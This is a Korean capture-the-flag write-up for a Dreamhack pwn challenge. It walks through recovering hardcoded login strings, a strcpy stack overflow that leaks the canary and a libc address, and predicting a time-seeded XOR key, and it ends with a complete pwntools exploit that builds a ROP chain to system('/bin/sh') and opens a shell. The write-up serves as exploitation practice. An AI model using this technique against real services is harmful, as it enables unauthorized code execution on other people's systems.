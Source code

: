 ID PW
```C
if ( strncmp(s1, "Yisf", 4uLL) || strncmp(v4, "G41V6!4", 7uLL) )
    return 0LL;
```
strncmp(s1, "Yisf", 4uLL) || strncmp(v4, "G41V6!4", 7uLL)
Yisf, G41V6!4

```C
for ( dword_6FE0 = 0; dword_6FE0 <= 112; ++dword_6FE0 )
{
  read(0, &byte_6FE4, 1uLL);
  if ( byte_6FE4 == 10 )
	break;
  src[dword_6FE0] = byte_6FE4;
}
strcpy(dest, src);
```
src의 크기는 24이므로 버퍼 오버플로우가 일어남

그리고 이렇게 오버플로우가 난 후에는,
```C
printf("Name : %s\n", dest);
```
게임이 끝난 뒤 dest를 출력해주는데 위에서 strcpy했기 떄문에 릭이 가능함

바이너리 내에 딱히 쓸만한 함수가 없어서 라이브러리를 이용하고자 함
그런데

```C
BYTE2(retaddr) ^= dword_6FE8
```
RET부분(라이브러리 주소 릭이 가능함)의 일부를 랜덤값과 XOR하고 있음
CDLL로 간단하게 계산 가능

첫 게임에 카나리, 두 번째 게임에 라이브러리 베이스, 세 번째 게임에 ROP

헤멨던 것 : gdb로 열어보니 time 함수에 들어가는 값이 0x2던데 이게 NULL이랑 같은 것으로 처리되는지 몰라서 고민함 - 처음에는 아예 예측 불가능한 줄 알아서 login 과정에 얻을 수 있는 ld 값으로 구해야 하는 줄 알았다. - key가 스택에 있었다 ㅋㅋㅋ
ROP payload에 XOR 해주는 걸 까먹음. - 1시간 날림


```python
from pwn import *
from ctypes import *

p = remote('host3.dreamhack.games', 9516)
l = ELF('/usr/lib/x86_64-linux-gnu/libc.so.6')
l2 = cdll.LoadLibrary('/usr/lib/x86_64-linux-gnu/libc.so.6')

def game(payload):
    p.sendlineafter(b'> ', b'1')
    p.sendlineafter(b'> ', payload)
    print("game")

v0 = int(l2.time(0))
l2.srand(v0)
num = int(l2.rand()) % 255

p.sendlineafter(b'[*] Id: ', b'Yisf')
p.sendlineafter(b'[*] Password: ', b'G41V6!4')
print("login")

game(b'a' * 0x19)

p.recvuntil(b'a' * 0x19)
canary = u64(b'\x00' + p.recvn(7))
print("canary : " + hex(canary))
p.sendlineafter(b'> ', b'a')

game(b'a' * 0x28)
p.recvuntil(b'a' * 0x28)
res = u64(p.recvn(6) + b'\x00' * 2)
print(hex(res))
res ^= (num << 16)
print(hex(res))
libc_base = res - (0x7ffff7d5cd90 - 0x7ffff7d33000)
print("libc_base : " + hex(libc_base))

ret = libc_base + 0x0000000000029139
pop_rdi = libc_base + 0x000000000002a3e5
system = libc_base + l.symbols['system']
binsh = libc_base + next(l.search(b'/bin/sh'))

game(b'a' * 0x18 + p64(canary) + b'b' * 8 + p64(ret ^ (num << 16)) + p64(pop_rdi) + p64(binsh) + p64(system)) 
p.recvuntil(b'Name : ')
p.sendlineafter(b'> ', b'3')

p.interactive()

```
